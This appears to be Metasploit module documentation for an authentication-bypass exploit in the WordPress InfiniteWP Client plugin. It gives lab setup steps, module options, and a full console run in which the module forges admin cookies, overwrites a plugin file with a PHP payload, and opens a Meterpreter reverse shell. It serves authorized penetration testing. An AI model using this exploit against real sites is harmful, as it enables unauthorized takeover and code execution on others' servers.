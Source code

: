 ## Vulnerable Application

### Description

This module exploits an authentication bypass in the WordPress
InfiniteWP Client plugin to log in as an administrator and execute
arbitrary PHP code by overwriting the file specified by `PLUGIN_FILE`.

The module will attempt to retrieve the original `PLUGIN_FILE` contents
and restore them after payload execution. If `VerifyContents` is set,
which is the default setting, the module will check to see if the
restored contents match the original.

Note that a valid administrator username is required for this module.

**WARNING:** WordPress 5.x is currently not supported. Tested against 4.x.

### Setup

1. Install WordPress 4.x **(5.x is currently not supported)**
2. Download <https://downloads.wordpress.org/plugin/iwp-client.1.9.4.4.zip>
3. Follow <https://wordpress.org/plugins/iwp-client/#installation>

### Targets

```
Id  Name
--  ----
0   InfiniteWP Client < 1.9.4.5
```

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

**USERNAME**

Set this to a known, valid administrator username. Authentication will
be bypassed for this user.

**PLUGIN_FILE**

Set this to a plugin file to insert the payload into, relative to the
plugins directory, which is normally `/wp-content/plugins`. The file
must exist and be writable by the web user. It will be overwritten and
later restored.

**VerifyContents**

Verify that the restored contents of `PLUGIN_FILE` match the original.
This is the default setting.

## Scenarios

### InfiniteWP Client 1.9.4.4

```
msf5 > use exploit/unix/webapp/wp_infinitewp_auth_bypass
msf5 exploit(unix/webapp/wp_infinitewp_auth_bypass) > show missing

Module options (exploit/unix/webapp/wp_infinitewp_auth_bypass):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)

msf5 exploit(unix/webapp/wp_infinitewp_auth_bypass) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(unix/webapp/wp_infinitewp_auth_bypass) > set rport 8080
rport => 8080
msf5 exploit(unix/webapp/wp_infinitewp_auth_bypass) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf5 exploit(unix/webapp/wp_infinitewp_auth_bypass) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Found version 1.9.4.4 in the custom file
[*] Bypassing auth for admin at http://127.0.0.1:8080/
[+] Successfully obtained cookie for admin
[*] Cookie: wordpress_37d007a56d816107ce5b52c10342db37=admin%7C1581232705%7CF8scWg5ll4PTVNpRx9Ye4ACXAFiICxpezmukJrU5Izb%7C066e08465b4fcf95f8562a65d25338f7e09f18832c583d4f5960f7cb9ba0a0b8; wordpress_37d007a56d816107ce5b52c10342db37=admin%7C1581232705%7CF8scWg5ll4PTVNpRx9Ye4ACXAFiICxpezmukJrU5Izb%7C066e08465b4fcf95f8562a65d25338f7e09f18832c583d4f5960f7cb9ba0a0b8; wordpress_logged_in_37d007a56d816107ce5b52c10342db37=admin%7C1581232705%7CF8scWg5ll4PTVNpRx9Ye4ACXAFiICxpezmukJrU5Izb%7C33df9b73b0ea9ea85f521c28848f9118bb62862418ae306d2ff14732011e5681; wordpress_sec_37d007a56d816107ce5b52c10342db37=admin%7C1581232705%7CTzi0VghEMcaH7twJkibB54wx4OXJ1VwGwOvuwHl1zIR%7C3db5cc0c5d78db233519a12afb40d3b23d96c70ee956cad6f5a72c5a5d05e3aa; wordpress_sec_37d007a56d816107ce5b52c10342db37=admin%7C1581232705%7CTzi0VghEMcaH7twJkibB54wx4OXJ1VwGwOvuwHl1zIR%7C3db5cc0c5d78db233519a12afb40d3b23d96c70ee956cad6f5a72c5a5d05e3aa; wordpress_logged_in_37d007a56d816107ce5b52c10342db37=admin%7C1581232705%7CTzi0VghEMcaH7twJkibB54wx4OXJ1VwGwOvuwHl1zIR%7C004c44e308040800a0b986f233011ac1c7a5c05dcd1561db44bb2514b2fcc332;
[+] Successfully logged in as admin
[*] Retrieving original contents of /wp-content/plugins/index.php
[+] Successfully retrieved original contents of /wp-content/plugins/index.php
[*] Contents:
<?php
// Silence is golden.
[*] Overwriting /wp-content/plugins/index.php with payload
[*] Acquired a plugin edit nonce: ebb5a2b07f
[*] Edited plugin file index.php
[+] Successfully overwrote /wp-content/plugins/index.php with payload
[*] Requesting payload at /wp-content/plugins/index.php
[*] Restoring original contents of /wp-content/plugins/index.php
[*] Sending stage (38288 bytes) to 192.168.56.1
[*] Acquired a plugin edit nonce: ebb5a2b07f
[*] Edited plugin file index.php
[+] Current contents of /wp-content/plugins/index.php match original!
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.1:64787) at 2020-02-07 01:18:27 -0600

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : 2c991a571915
OS          : Linux 2c991a571915 4.19.76-linuxkit #1 SMP Thu Oct 17 19:31:58 UTC 2019 x86_64
Meterpreter : php/linux
meterpreter >
```
